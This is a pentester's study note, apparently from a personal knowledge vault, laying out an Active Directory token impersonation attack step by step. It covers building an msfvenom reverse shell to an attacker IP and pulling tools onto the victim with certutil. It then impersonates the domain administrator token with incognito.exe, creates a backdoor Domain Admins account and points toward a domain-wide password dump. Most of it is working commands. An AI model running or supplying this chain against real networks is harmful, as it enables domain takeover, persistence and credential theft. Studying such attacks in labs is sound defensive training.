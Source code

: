 -- -
A user may have access to delegate tokens to be able to impersonate another user or system in AD. We can try to list out available delegate tokens for one or more users and see if it allows us to move laterally or vertically using a delegate token
##### Definition
Tokens are temporary keys that allow you to access a system/network resource w/o having to provide credentials each time you access something. Like a cookie for computers in AD. 
#### Types:
- Delegate - created for logging into a machine/RDP. **Target**
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script. 
##### Steps
1. Get shell on machine
2. List Tokens
3. Impersonate another user (domain admin)
4. Add new user to new group (domain admins)
5. Compromise DC
### "manual" exploit
If you don't have `incognito.exe`, then you can find a precompiled version [here](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe) or to compile from source, the repo is [here](https://github.com/milkdevil/incognito2?tab=readme-ov-file).
#### Prepare rev shell
You will get an impersonation elevated shell using this reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```
#### File transfer
File transfer over the executables onto the victim Windows host
```powershell
certutil -urlcache http://<attack ip>/incognito.exe incognito.exe
certutil -urlcache http://<attack ip>/shell.exe shell.exe
```
#### Impersonation attack
Make sure to have a netcat listener listening on `9001` or whatever LPORT you set on the rev shell.
```powershell
# list available dleegate tokens
incognito.exe list_tokens -u

# create impersonation reverse shell
incognito.exe execute -c "<domain>/<user>" .\shell.exe
incognito.exe execute -c "MARVEL/administrator" .\shell.exe
```
Now go to the below section "Post-Impersonate" for creating yourself a user in Domain Admins group or other group or other exploit. 
#### resource
- Vector outlined here: [Juggernaut exploit steps](https://juggernaut-sec.com/lateral-movement-token-impersonation/#Impersonating_the_Domain_Admin_with_incognitoexe)
- [Code your own](https://www.insecure.in/blog/token-impersonation-without-metasploit)
### Metasploit Impersonate
#### Get Shell
[[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/metasploit]]
![[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/metasploit#^66f29a]]
#### Impersonate User
[[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/metasploit]]
![[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/metasploit#^c51a79]]

### Post-Impersonate
#### Add new user to domain admins
obviously, you can add the user to whatever group the user has
```powershell
# Create new user and add to the current domain
net user /add <new username> <new password> /domain
nnet user /add hawkeye Password1@ /domain

# Add new user to desired group, in this case domain admins
net group "<domain group>" <user> /ADD /DOMAIN
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
#### Compromise
From here, you have another account to play with, so loop back to other attacks:
[[Dark Arts I/Active Directory/Post Breach/Attacks/Kerberoasting|Kerberoasting]]
[[Hacking Scratch/Mitigations/Active Directory/Pass Attacks|Pass Attacks]]
[[Dark Arts I/Active Directory/Post Breach/Attacks/Token Impersonation]]

If you add the new user to domain admins, you can try to get all a password dump of the entire domain using [[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]] or DCSync or whatever you want. 